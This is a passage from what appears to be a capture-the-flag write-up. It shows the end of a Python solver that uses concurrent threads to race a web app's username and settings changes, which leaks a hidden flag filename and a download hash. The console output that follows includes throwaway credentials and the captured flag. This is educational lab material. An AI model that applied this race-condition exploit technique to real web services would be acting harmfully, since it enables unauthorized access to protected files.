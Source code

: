 ```python
                f = executor.submit(loop_dir_listing, sess[1])

            if flag_filename := f.result():
                print(flag_filename)
                break

            # print("trying...")
            time.sleep(DELAY_SEC)

        revert_username(sess[0])

        # Step 2: get hash
        print("[+] Step 2 start")
        res = upload_dummy_file(sess[0], flag_filename)
        if not (m := re.findall(rf"{flag_filename}\&hash=(.*?)'", res.text)):
            raise Exception("Hash Not Found")

        hash = m[0]

        # Step 3: get flag
        print("[+] Step 3 start")
        while True:
            with concurrent.futures.ThreadPoolExecutor(max_workers=2) as executor:
                executor.submit(loop_settings, sess[0])
                f = executor.submit(loop_download, sess[1], flag_filename, hash)

            if f.result():
                print("I believe I found the flag.")
                break

            # print("trying...")
            time.sleep(DELAY_SEC)

    except KeyboardInterrupt:
        pass

    finally:
        # Revert to the initial username so that I can log in with the same username on the next try
        revert_username(sess[0])


if __name__ == "__main__":
    main()
```

Result

```console
$ python3 solver.py
USERNAME='testOjdHXJVUjU', PASSWORD='GXLJOhyVJJ'
[+] Step 1 start
flag-bf49e780adf2bdfd5400e5bc1c93a949.txt
[+] Step 2 start
[+] Step 3 start
wgmy{0a8d216f13c4308ed1b5d17fc99384d2}
I believe I found the flag.
```
